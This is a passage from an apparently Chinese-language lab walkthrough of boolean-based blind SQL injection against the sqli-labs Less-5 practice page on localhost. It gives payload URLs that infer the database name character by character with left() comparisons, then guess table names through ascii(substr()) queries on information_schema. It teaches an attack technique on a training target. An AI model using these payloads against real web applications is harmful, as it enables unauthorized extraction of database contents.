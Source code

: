 ![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732081772657-ced35f5a-4ce2-4a49-884e-ebdfdcc09069.png)

<font style="color:rgb(77, 77, 77);">长度为8时返回正确页面，所以数据库长度为8.</font>

<font style="color:#601BDE;">注：得到长度8是通过一个数一个数试出来的 一般都是使用脚本 不支持手搓 包括后面的猜表名和数        据内容  也是将字符转化成ascii码后 通过判断页面反馈一个个拼接起来的</font>

##### <font style="color:rgb(79, 79, 79);">猜测当前数据库名</font>
<font style="color:rgb(77, 77, 77);">使用left()函数进行夹逼</font><font style="color:#601BDE;">（使用其他截取字符的函数也是同样的道理 只不过格式会有些许差异）</font>  
<font style="color:rgb(77, 77, 77);">猜测当前数据库名的第一位字符：</font>

```sql
http://127.0.0.1/sqlilabs/Less-5/?id=1' and left(database(),1)>'r'%23
http://127.0.0.1/sqlilabs/Less-5/?id=1' and left(database(),1)<'t'%23
```

结果都为

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732082313865-f65072c1-4590-4203-a872-e05fab13c26d.png)

由于 'r'<'当前数据库名的第一位字符'<'t'

<font style="color:rgb(77, 77, 77);">所以当前数据库名的第一位字符为's'。</font>

<font style="color:rgb(77, 77, 77);">猜测当前数据库名的第二位字符：</font>

<font style="color:rgb(77, 77, 77);">payload:</font>

```sql
http://127.0.0.1/sqlilabs/Less-5/?id=1' and left(database(),2)>'sd'%23
http://127.0.0.1/sqlilabs/Less-5/?id=1' and left(database(),2)<'sf'%23
```

两个结果都为

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732082479485-cccc0a62-a28f-4d03-8668-c3d646366397.png)

由于 'sd'<'当前数据库名的前两位字符'<'sf'

<font style="color:rgb(77, 77, 77);">所以当前数据库名的第二位字符为'e’</font>

<font style="color:rgb(77, 77, 77);">以此类推，最后得到当前数据库名为“security”。</font><font style="color:#601BDE;">(这里都是机械重复操作 方法都是一样的)</font>

##### <font style="color:rgb(79, 79, 79);">猜测当前数据库的表名</font>
<font style="color:rgb(77, 77, 77);">猜测第一个数据表名的第一个字符：</font>

<font style="color:rgb(77, 77, 77);">payload:</font>

```sql
http://127.0.0.1/sqlilabs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100%23
http://127.0.0.1/sqlilabs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<102%23
```

<font style="color:#601BDE;">注：字符'd'的ascii码值为100 字符'f'的ascii码值为102 这里用的是ascii函数和substr函数来截取比较</font>
